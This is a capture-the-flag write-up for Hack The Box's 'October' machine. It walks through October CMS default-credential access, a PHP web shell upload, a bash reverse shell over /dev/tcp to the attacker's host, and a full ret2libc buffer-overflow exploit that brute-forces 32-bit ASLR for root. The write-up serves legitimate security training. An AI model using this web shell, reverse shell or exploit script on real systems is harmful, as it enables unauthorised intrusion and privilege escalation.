


# Target
| Category          | Details                                                      |
|-------------------|--------------------------------------------------------------|
| 📝 **Name**       | [October](https://app.hackthebox.com/machines/October)       |  
| 🏷 **Type**       | HTB Machine                                                  |
| 🖥 **OS**         | Linux                                                        |
| 🎯 **Difficulty** | Medium                                                       |
| 📁 **Tags**       | October CMS, buffer overflow, NX / ASLR (32 bit) brute force |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-21 08:33 +0100
Nmap scan report for 10.129.96.113
Host is up (0.039s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.59 seconds
```

#### Discover October CMS running on target


#### Use `admin:admin` credentials to access CMS backend


#### Prepare `cmd.php5` backdoor
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ cat <<'EOF' > cmd.php5
<?php
    if(isset($_REQUEST['cmd'])) {
        echo "<pre>";
        system($_REQUEST['cmd']);
        echo "</pre>";
        die;
    }
?>
EOF
```
Instance of October CMS running on target allows upload of .php5 files.

#### Upload `cmd.php5`


#### Confirm backdoor in place
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ curl http://$TARGET/storage/app/media/cmd.php5?cmd=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Spawn reverse shell connection using uploaded `cmd.php5`
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ REVERSE_SHELL=$(echo -n "/bin/bash -c \"bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1\"" | jq -sRr @uri) && \
curl http://$TARGET/storage/app/media/cmd.php5?cmd=$REVERSE_SHELL
```

#### Confirm foothold gained
```
connect to [10.10.16.16] from (UNKNOWN) [10.129.5.136] 37626
bash: cannot set terminal process group (1318): Inappropriate ioctl for device
bash: no job control in this shell
www-data@october:/var/www/html/cms/storage/app/media$ python -c 'import pty; pty.spawn("/bin/bash")'   
www-data@october:/var/www/html/cms/storage/app/media$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Capture user flag
```
www-data@october:/$ cat /home/harry/user.txt
d6d685c228bf3e1632dcfae46047832c
```

### Root flag

#### Discover `/usr/local/bin/ovrflw` SUID binary
Binary has been discovered with `linpeas`.
```
-rwsr-xr-x 1 root root 7.3K Apr 21  2017 /usr/local/bin/ovrflw (Unknown SUID binary!)
```

#### Exfiltrate `/usr/local/bin/ovrflw` and analyze it locally


We can see `strcpy` being used and accepting `argv[1]` which could lead to buffer overflow vulnerability.

#### Try to overflow buffer to calculate EIP offset with `pwngdb`
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ pwndbg ovrflw
pwndbg> cyclic 128
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
pwndbg> r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
Starting program: /home/magicrc/attack/HTB October/ovrflw aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────
 EAX  0
 EBX  0xf7f88e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x233d0c /* '\x0c=#' */
 ECX  0xffffcef0 ◂— 'aabeaabfaabgaab'
 EDX  0xffffcb9d ◂— 'aabeaabfaabgaab'
 EDI  0xf7ffcc60 (_rtld_global_ro) ◂— 0
 ESI  0x80484d0 (__libc_csu_init) ◂— push ebp
 EBP  0x62616163 ('caab')
 ESP  0xffffcba0 ◂— 'eaabfaabgaab'
 EIP  0x62616164 ('daab')
─────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────────────────────────────────────
<SNIP>
pwndbg> info registers eip
eip            0x62616164          0x62616164
pwndbg> cyclic -l $eip
Finding cyclic pattern of 4 bytes: b'daab' (hex: 0x64616162)
Found at offset 112
```

#### Check properties of `ovrflw` executable
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ checksec --file=ovrflw
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   69 Symbols        No    0               2               ovrflw
```
Since NX is enabled (DEP - Data Execution Prevention), we won't be able to execute shellcode passed in CLI parameter. To bypass this we could use `ret2libc` attack.

#### Check system-wide ASLR on target
```
www-data@october:/$ cat /proc/sys/kernel/randomize_va_space
2
```
We can see full ASLR set on target, this effectively means that `libc` base address will be different on each run.

#### Check the binary’s architecture
```
┌──(magicrc㉿perun)-[~/attack/HTB October]
└─$ file ovrflw
ovrflw: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
```
We can see that the `overflw` binary is 32-bit, meaning ASLR provides only low address-space entropy (≈2⁸ possible layouts) and can therefore be bypassed via brute-force attack.

#### Prepare `ret2libc` exploit with ASLR bruteforce
```
www-data@october:/$ cat <<'EOF' > /tmp/exploit.py
import subprocess
import struct
import sys

def cmd(c):
    return subprocess.check_output(c, shell=True).strip().decode()

libc_base = int(cmd("ldd /usr/local/bin/ovrflw | grep libc | awk '{print $4}' | tr -d '()'"), 16)
print("[+] libc base: " + hex(libc_base))
system_offset = int(cmd("readelf -s /lib/i386-linux-gnu/libc.so.6 | grep ' system@@' | awk '{print $2}'"), 16)
print("[+] system offset: " + hex(system_offset))
exit_offset = int(cmd("readelf -s /lib/i386-linux-gnu/libc.so.6 | grep ' exit@@' | awk '{print $2}'"), 16)
print("[+] exit offset: " + hex(exit_offset))
binsh_offset = int(cmd("strings -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh' | head -n1 | awk '{print $1}'"), 16)
print("[+] '/bin/sh' offset: " + hex(binsh_offset))

payload  = b"\x90" * 112
payload += struct.pack("<I", libc_base + system_offset)
payload += struct.pack("<I", libc_base + exit_offset)
payload += struct.pack("<I", libc_base + binsh_offset)

print("[+] Bruteforcing 32-bit ASLR...")
while True:
    subprocess.call(["/usr/local/bin/ovrflw", payload], stdin=sys.stdin, stdout=sys.stdout, stderr=sys.stderr)
EOF
```

#### Run exploit
```
www-data@october:/$ python3 /tmp/exploit.py
[+] libc base: 0xb75a5000
[+] system offset: 0x40310
[+] exit offset: 0x33260
[+] '/bin/sh' offset: 0x162bac
[+] Bruteforcing 32-bit ASLR..
<SNIP>
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

#### Capture root flag
```
# cat /root/root.txt
d186c904e9eb32cc2ef32e39f9d74df5
```
